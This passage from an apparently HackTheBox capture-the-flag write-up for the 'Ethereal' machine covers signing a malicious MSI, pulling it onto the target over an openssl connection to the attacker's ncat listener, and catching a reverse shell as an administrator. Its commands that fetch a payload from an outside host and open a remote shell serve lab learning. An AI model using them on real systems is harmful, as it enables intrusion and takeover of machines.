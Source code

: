     Number of errors: 1
    

If I add the CA cert to my root cert store by right-clicking and selecting
“Install”, it will then verify:

![1542319234864](https://0xdfimages.gitlab.io/img/1542319234864.png)

    
    
    C:\Program Files\Microsoft SDKs\Windows\v7.1\Bin>signtool.exe verify /pa \Users\0xdf\Desktop\Ethereal\Ethereal.msi
    Successfully verified: \Users\0xdf\Desktop\Ethereal\Ethereal.msi
    

Now it’s signed:

![1542319389198](https://0xdfimages.gitlab.io/img/1542319389198.png)

### Transfer to Ethereal

I’ll kill the shell output again and use that to copy my MSI to target:

    
    
    c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136 > c:\users\public\desktop\shortcuts\msi.msi
    
    
    
    root@kali# ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 136 < Ethereal.msi                                                                                        
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::136
    Ncat: Listening on 0.0.0.0:136
    Ncat: Connection from 10.10.10.106.
    Ncat: Connection from 10.10.10.106:49679.
    

### Shell

Then I’ll copy that file into the MSI directory, restart both `openssl`
listeners, and wait. I get a shell as rupal:

    
    
    root@kali# openssl s_server -quiet -key key.pem -cert cert.pem -port 136
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    ethereal\rupal
    

And rupal is actually an administrator, so I can get `root.txt`:

    
    
    C:\Windows\system32>net user
    
    User accounts for \\ETHEREAL
    -------------------------------------------------------------------------------
    Administrator            alan                     DefaultAccount
    Guest                    jorge                    rupal
    The command completed successfully.
    